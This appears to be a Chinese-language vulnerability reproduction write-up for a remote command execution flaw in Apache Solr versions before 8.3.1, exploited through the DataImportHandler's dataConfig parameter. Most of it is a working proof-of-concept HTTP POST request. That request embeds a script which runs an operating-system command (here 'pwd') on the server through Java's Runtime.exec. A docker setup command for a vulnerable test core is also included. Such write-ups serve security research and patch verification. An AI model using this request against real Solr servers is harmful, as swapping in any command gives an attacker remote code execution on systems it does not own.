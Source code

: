 # Solr < 8.3.1 RCE

## 漏洞描述

利用需开启DataImportHandler模块(默认情况下该模块不被启用)

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## writeup

- 待执行命令 

```
pwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo -d example/example-DIH/solr/db
```

- POC

```
POST /solr/demo/dataimport?indent=on&wt=json HTTP/1.1
Host: xxxx:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 644
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(row){ row.put("id",new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("pwd").getInputStream())).readLine());
        return row;
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig%3E&name=dataimport
```

## 复现结果

![](./1.png)
